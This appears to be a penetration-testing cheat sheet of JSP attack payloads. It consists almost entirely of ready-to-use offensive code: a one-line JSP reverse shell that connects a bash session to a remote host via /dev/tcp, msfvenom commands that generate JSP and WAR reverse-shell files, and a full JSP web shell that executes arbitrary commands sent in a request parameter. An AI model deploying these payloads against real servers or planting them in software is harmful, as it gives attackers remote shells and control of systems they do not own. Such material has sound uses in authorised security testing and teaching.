 JSP File

<pre><code><strong>&#x3C;%=Process p=new ProcessBuilder("/bin/bash -c 'bash -i >&#x26; /dev/tcp/&#x3C;IP>/&#x3C;PORT> 0>&#x26;1'").redirectErrorStream(true).start();Socket s=new Socket("&#x3C;host>",&#x3C;port>);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();%>
</strong></code></pre>

JSP From Msfvenom

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f jsp -o rv.jsp
```

From WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

### Webshell

```
<FORM METHOD=GET ACTION='cmdjsp.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         String cmdFull = cmd;
         if(System.getProperty("os.name").toLowerCase().startsWith("windows")){
            cmdFull = "cmd.exe /C " + cmd;
         }
         Process p = Runtime.getRuntime().exec(cmdFull);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>
```

